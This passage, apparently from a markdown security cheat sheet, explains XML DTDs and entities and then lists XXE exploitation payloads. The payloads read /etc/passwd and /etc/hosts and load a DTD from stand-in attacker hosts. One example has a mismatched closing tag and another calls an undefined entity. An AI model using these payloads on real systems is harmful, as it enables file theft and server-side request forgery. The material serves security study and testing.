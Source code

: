 <a href="https://www.owasp.org/index.php/Authentication_Cheat_Sheet">OWASP Auth Cheatsheet</a><br>
<a href="https://www.owasp.org/index.php/SAML_Security_Cheat_Sheet">OWASP SAML Security Cheatsheet</a>


## XML – XML External Entities
---

**Summary**

_XML DTD (XML Document Type Declaration)_ is used to define the structure of the XML document, with a list of legal elements.  
* Provides a way for applications to share data using a common structure, to verify that the data received is valid.  
* Allows creation of Entities.  

_General entities_ - can be used in XML content like &name;  
`<!ENTITY name "Hello World">`  

_Parameter entities_: - can be used inside doctype definition like %name; (parameter entities can insert new entities) and inside entities values like %name;  
`<!ENTITY % name "Hello World">`  
`<!ENTITY % name "Hello %myEntity;">`  

_External entities_ - entities with query to external (not declared in current XML document) resource (can be used both: general entities and parameter entities)  
    `<!ENTITY name SYSTEM "URI/URL">`  
    `<!ENTITY name PUBLIC "any_text" "URI/URL">`  

_External entities_ - can be used for doctypes too:  
    `<!DOCTYPE name SYSTEM "address.dtd" [...]>`  
    `<!DOCTYPE name PUBLIC "any text" "http://evil.com/evil.dtd">`  


**Exploitation**  

Basic XXE Test
  ```xml
  <!DOCTYPE test [<!ENTITY example "Hello World"> ]>
  <test>
    <hello>&example;</hello>
  </userInfo>
  ```

Local File Inclusion  
  ```xml
  <!DOCTYPE data [
      <!ELEMENT lol ANY>
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <lol>&xxe;</lol>
  ```

Remote File Inclusion / SSRF  
  ```xml
  <!DOCTYPE data [
      <!ELEMENT lol ANY>
      <!ENTITY xxe SYSTEM "https://attacker.com/evil.dtd">
      &xxe;
  ]>
  <lol>&file;</lol>
  ```  
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/hosts">
  ```  
